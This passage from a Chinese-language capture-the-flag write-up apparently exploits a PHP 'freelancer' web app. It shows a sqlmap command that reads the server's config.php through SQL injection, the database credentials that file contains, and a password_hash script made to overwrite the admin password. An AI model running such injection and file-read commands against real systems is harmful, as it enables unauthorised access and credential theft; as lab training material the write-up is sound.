                 // Close statement
                mysqli_stmt_close($stmt);
            }
            
            // Close connection
            mysqli_close($link);
        }
        ?>
        ```

      * 可以看到

        * 登录接口访问数据库采用了预编译的代码，因此登录接口不存在SQL注入漏洞
        * 调用了`password_verify()`函数来校验对用户输入的密码，在当前文件并没有实现该函数，但文件一开始`require_once "include/config.php";`，因此可能在该文件中，尝试读取该文件
    
    * 读取`include/config.php`文件
    
      * shell
    
        ```shell
        sqlmap -u 'http://[IP]:[PORT]/portfolio.php?id=1' -D freelancer -T safeadmin --file-read=/var/www/html/administrat/include/config.php
        ```
    
      * php
    
        ```shell
        <?php
        $link = new mysqli("localhost", "db_user", "Str0ngP4ss", "freelancer");
         
        // Check connection
        if($link === false){
            die("ERROR: Could not connect. " . mysqli_connect_error());
        }
        ?>
        ```
    
      * 很可惜，这里面只存了连接数据库的配置信息。
    
    * 通过搜索发现`password_verify()`是PHP原生函数，与`password_hash()`配合使用，逆向hash很麻烦，所以就把safeadm的账号密码改了吧，233333
    
      * 准备新密码为`233333`
    
      * 准备生成密码脚本
    
        ```php
        <?php
        	echo password_hash("233333", PASSWORD_DEFAULT);
        ?>
        ```
    
      * 执行脚本，获取结果
    
        ```tex
        $2y$10$cq7HCnT1oVaDHgNb7BuHR.YRYHRqXlVD4RpzNuWQUK2WXiqaGk8kS
        ```
    
      * 尝试修改密码，失败
      